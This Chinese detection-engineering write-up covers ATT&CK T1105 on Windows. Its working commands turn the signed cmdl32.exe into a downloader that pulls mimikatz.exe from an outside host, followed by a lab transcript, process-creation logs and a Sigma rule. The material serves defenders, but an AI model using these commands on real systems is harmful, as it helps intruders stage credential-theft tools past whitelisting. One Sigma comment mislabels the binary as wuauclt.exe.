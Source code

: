 # T1105-Win-利用cmdl32进行文件下载行为(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻陷的环境中。可以通过命令控制通道从外部攻击者控制的系统中复制文件，以便将工具带入被攻陷的网络环境中，或通过与另一个工具（如FTP）的替代协议复制文件。文件也可以在Mac和Linux上使用scp、rsync和sftp等本机工具进行复制。

## 测试案例

cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。

### 步骤一

使用以下命令并且生成相关配置文件。

```yml
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt  >> settings.txt
echo [Settings]  >> settings.txt
echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt
```

### 步骤二

然后继续执行即可下载成功。

```yml
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move VPNBDFF.tmp mimikatz.exe
```

## 检测日志

windows安全日志、其他EDR类产品

## 测试复现

windows server 2016进行测试，测试效果Ok。

```yml
C:\Users\Administrator>cd C:\Users\Administrator\Desktop\test

C:\Users\Administrator\Desktop\test>icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>set tmp=%cd%

C:\Users\Administrator\Desktop\test>echo [Connection Manager] > settings.txt

C:\Users\Administrator\Desktop\test>echo CMSFile=settings.txt >> settings.txt

C:\Users\Administrator\Desktop\test>echo ServiceName=WindowsUpdate >> settings.txt

C:\Users\Administrator\Desktop\test>echo TunnelFile=settings.txt  >> settings.txt

C:\Users\Administrator\Desktop\test>echo [Settings]  >> settings.txt

C:\Users\Administrator\Desktop\test>echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt

C:\Users\Administrator\Desktop\test>cmdl32 /vpn /lan %cd%\settings.txt

C:\Users\Administrator\Desktop\test>icacls %cd% /remove:d %username%
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>move VPND1F2.tmp mimikatz.exe
移动了         1 个文件。
```

## 测试留痕

### 日志记录1

```log
创建新进程。4688，windows安全日志

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x40e0
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /deny Administrator:(OI)(CI)(DE,DC)
```

### 日志记录二

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x12c18
 新进程名称: C:\Windows\System32\cmdl32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: cmdl32  /vpn /lan C:\Users\wangxin\Desktop\test\settings.txt
```

### 日志记录三

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xE991EB

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x133b8
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x12fac
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /remove:d Administrator
```

## 检测规则/思路

### sigma规则

```yml

title: Windows下利用cmdl32进行文件下载行为
status: experimental
description:  cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。攻击者可以利用cmdl32进行简单的文件传输活动。
references:
    - https://www.t00ls.cc/thread-63254-1-1.html
tags:
    - attack.command_and_control
    - attack.execution
    - attack.t1105
logsource:
    product: windows #windows
    service: process_creation #安全事件，进程创建
detection:
    selection:
        ProcessCommandline|contains|all: #进程命令行参数包含以下任意一项
            - 'settings.txt'
        Image|endswith: 
            - 'cmdl32.exe' #进程路径为以wuauclt.exe
    condition: selection
falsepositives:
    - Unknown
level: high
```

### 建议

低版本操作系统无法记录命令行参数及子父进程，建议通过Sysmon进行监控。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

cmdl32代替certutil.exe

<https://www.t00ls.cc/thread-63254-1-1.html>
